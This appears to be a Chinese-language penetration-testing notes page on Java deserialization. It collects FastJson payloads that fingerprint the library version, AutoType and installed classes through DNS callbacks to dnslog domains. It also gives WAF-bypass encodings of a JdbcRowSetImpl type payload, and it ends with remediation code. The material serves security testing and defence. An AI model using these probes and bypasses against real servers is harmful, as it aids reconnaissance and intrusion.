


- [反序列化 Deserialization](#反序列化-deserialization)
  - [PHP](#php)
  - [JAVA](#java)
    - [FastJson](#fastjson)
      - [版本探测](#版本探测)
      - [AutoType探测](#autotype探测)
      - [依赖环境探测](#依赖环境探测)
      - [WAF Bypass](#waf-bypass)
  - [修复方案](#修复方案)
    - [校验过滤](#校验过滤)
    - [Apache Commons IO](#apache-commons-io)
    - [SnakeYaml](#snakeyaml)
    - [更新组件](#更新组件)
  - [参考](#参考)

# 反序列化 Deserialization
## PHP
## JAVA
### FastJson
#### 版本探测
遇到`{`和`,`会抛出版本信息.
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.AutoCloseable"
```   
  
1.2.47
```json
{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.68
```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.80
```json
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"first.dnslog.com"}}},
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"second.dnslog.com"}}}
```
#### AutoType探测
1.x版本中,当使用`parse(String text)`或者`parseObject(String text)`时
```json
{"@type":"aaaa"}
```
  
但在2.x版本,`parseObject`不再反序列化.
#### 依赖环境探测
```json
{"@type":"java.lang.Class","val":${class}}
```
```
org.springframework.web.bind.annotation.RequestMapping spring
org.apache.catalina.startup.Tomcat tomcat
groovy.lang.GroovyShell groovy
com.mysql.jdbc.Driver mysql
java.net.http.HttpClient java 11
```
```json
{"@type":"java.net.Inet4Address", "val":{"@type":"java.lang.String" {"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String" {1:{"@type":"java.lang.Class","val":"TARGET_CLASS"}}, "country":"x.l56y7u6g.dnslog.pw" 
```
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}
```
#### WAF Bypass
编码:base64,Quoted-printable,unicode  
payload: {"@type":"com.sun.rowset.JdbcRowSetImpl"}  
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: Base64
eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIn0=
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: quoted-printable
=7B=22=40type=22=3A=22com.sun.rowset.JdbcRowSetImpl=22=7D
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```json
{,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.langAutoCloseable"  
```
垃圾字符:
```
[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"
...
]]]]]
```
## 修复方案
### 校验过滤
对于来源不可信的序列化数据，不要直接进行反序列化，而应该先进行校验，如重写ObjectInputStream的resolveClass方法，在其中对类名进行校验，反序列化中的resolveClass方法主要用于读取要反序列化对象的类名。
```java
public class SafeObject extends ObjectInputStream{

    public SafeObject(InputStream in) throws IOException {
        super(in);
    }

    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        Class<?> clazz  = super.resolveClass(desc);
        System.out.printf(clazz.getName());
        if(!clazz.getName().equals("User")){
            return null;
        }
        return clazz;
    }
}
```
### Apache Commons IO
使用Apache Commons IO的ValidatingObjectInputStream，accept方法来实现反序列化类白/黑名单控制.
```java
        ByteArrayInputStream stream = new ByteArrayInputStream(bytes);
        ValidatingObjectInputStream ois = new ValidatingObjectInputStream(stream);
        // 只允许反序列化Student class
        ois.accept(Student.class);
        ois.readObject();
```
### SnakeYaml
```java
    Yaml y = new Yaml();
    y.load(content);
```
使用SafeConstructor, SafeConstructor 是 SnakeYaml 提供的一个安全的构造器。它可以用来构造安全的对象，避免反序列化漏洞的发生。
```java
    Yaml y = new Yaml(new SafeConstructor());
    y.load(content);
```
### 更新组件
更新创建Gadget利用的组件,如commons-collections、commons-io等第三方库版本。

## 参考
[Hacking JSON KCon2022](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)  
https://b1ue.cn/archives/402.html